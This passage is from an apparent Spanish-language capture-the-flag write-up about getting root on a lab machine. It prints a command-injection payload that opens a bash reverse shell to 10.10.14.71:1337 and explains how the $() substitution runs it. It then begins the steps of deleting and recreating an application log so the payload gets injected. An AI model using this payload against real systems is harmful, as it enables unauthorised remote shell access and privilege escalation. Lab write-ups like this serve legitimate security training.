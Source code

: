         ```

        x[$(/bin/bash -i >& /dev/tcp/10.10.14.71/1337 0>&1)]

        ```

    - **`code=$(...)`**: La **sustitución de comandos** (`$()`) hace que el shell intente ejecutar el contenido dentro de los paréntesis _antes_ de que se asigne a la variable `code`.
    **¡Aquí es donde ocurre la ejecución del comando malicioso!** El shell interpreta `/bin/bash -i >& /dev/tcp/10.10.14.71/1337 0>&1` como un comando a ejecutar. Este comando intenta iniciar una shell interactiva y redirigir su entrada y salida a la dirección IP y puerto especificados, estableciendo la reverse shell.

algo así en pocas palabras:

![paste](./images/chibi.jpeg)

  
y con esto explicado procedemos ha hacer los pasos para que funcione

# Root Pwned?

Primero eliminamos el archivo de application.log para poder escribir en el

```bash

miranda-wise@eureka:~$ rm -f /var/www/web/user-management-service/log/application.log

```

después lo creamos pero agregamos el comando que nos dará una reverse shell
